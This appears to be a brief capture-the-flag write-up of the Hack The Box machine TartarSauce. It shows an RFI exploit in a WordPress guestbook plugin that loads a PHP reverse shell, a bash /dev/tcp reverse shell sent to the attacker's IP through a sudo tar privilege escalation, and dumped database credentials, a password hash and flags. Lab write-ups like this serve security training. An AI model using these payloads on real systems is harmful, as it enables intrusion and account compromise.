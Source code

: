 Machine: https://app.hackthebox.com/machines/138

IP: 10.10.10.88

# Enumeration

Port 80:

/robots.txt (Rabbit holes)

```
User-agent: *
Disallow: /webservices/tar/tar/source/
Disallow: /webservices/monstra-3.0.4/
Disallow: /webservices/easy-file-uploader/
Disallow: /webservices/developmental/
Disallow: /webservices/phpmyadmin/
```

/webservices/monstra-3.0.4/robots.txt (Rabbit holes)

```
User-agent: *
Disallow: /admin/
Disallow: /engine/
Disallow: /libraries/
Disallow: /plugins/
```

/webservices/wp

`Wordpress website`

/webservices/wp/wp-content/plugins/gwolle-gb/readme.txt

```
== Changelog ==

= 2.3.10 =
* 2018-2-12
* Changed version from 1.5.3 to 2.3.10 to trick wpscan ;D
```

https://0xdf.gitlab.io/2018/10/20/htb-tartarsauce.html

Vulnerable to RFI

# Exploitation

Attacker

`python3 -m http.server 80`

and curl to our machine

`curl -s http://10.10.10.88/webservices/wp/wp-content/plugins/gwolle-gb/frontend/captcha/ajaxresponse.php?abspath=http://10.10.16.12/`

We see that it is trying to get wp-load.php

```bash
root@kali# python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.88 - - [28/May/2018 15:10:22] "GET /wp-load.php HTTP/1.0" 404 -
```

Exploit:

Create wp-load.php file that contains reverse shell

wp-load.php:

PHP Reverse shell pentest monkey

Start a listener and curl again

`nc -lvnp 1234`

# Post-Exploitation

## Shell as `www-data`:

/var/www/html/webservices/wp/wp-config.php

```bash
/ ** MySQL settings - You can get this info from your web host ** //
/** The name of the database for WordPress */
define('DB_NAME', 'wp');

/** MySQL database username */
define('DB_USER', 'wpuser');

/** MySQL database password */
define('DB_PASSWORD', 'w0rdpr3$$d@t@b@$3@cc3$$');
```

View local port

```bash
www-data@TartarSauce:/var/www/html/webservices/wp$ ss -lntp
State      Recv-Q Send-Q Local Address:Port               Peer Address:Port              
LISTEN     0      80     127.0.0.1:3306                     *:*
```

Query in mysql shell

```bash
wpadmin    | $P$BBU0yjydBz9THONExe2kPEsvtjStGe1 | wpadmin       | wpadmin@test.local |
```

```bash
User www-data may run the following commands on TartarSauce:
    (onuma) NOPASSWD: /bin/tar
```

Tar has this option where extracted file can be used to execute

`--to-command=COMMAND   pipe extracted files to another program`

Exploit:

```bash
echo -e '#!/bin/bash\n\nbash -i >& /dev/tcp/10.10.16.12/1234 0>&1' > a.sh

tar -cvf a.tar a.sh

sudo -u onuma tar -xvf a.tar --to-command /bin/bash
```

Start a listener to get shell

`nc -lnvp 1234`

## Shell as `onuma`:

user.txt 61581cbcd480d2e87fb9ae0772308f7b

Stabalize shell with python3

```
python3 -c 'import pty;pty.spawn("/bin/bash")'

ctrl+z

stty raw -echo;fg

enter

enter
```

https://0xdf.gitlab.io/2018/10/20/htb-tartarsauce.html

To exploit this script, I’ll take advantage of two things: the sleep, and the recursive diff. During the sleep, I’ll unpack the archive, replace one of the files with a link to /root/root.txt, and re-archive it. Then when the script opens the archive and runs the diff, the resulting file will be different, and the contents of both files will end up in the log file.

root.txt 929442365ff3876f94729e440c8a1217

# Beyond Root

https://0xdf.gitlab.io/2018/10/20/htb-tartarsauce.html

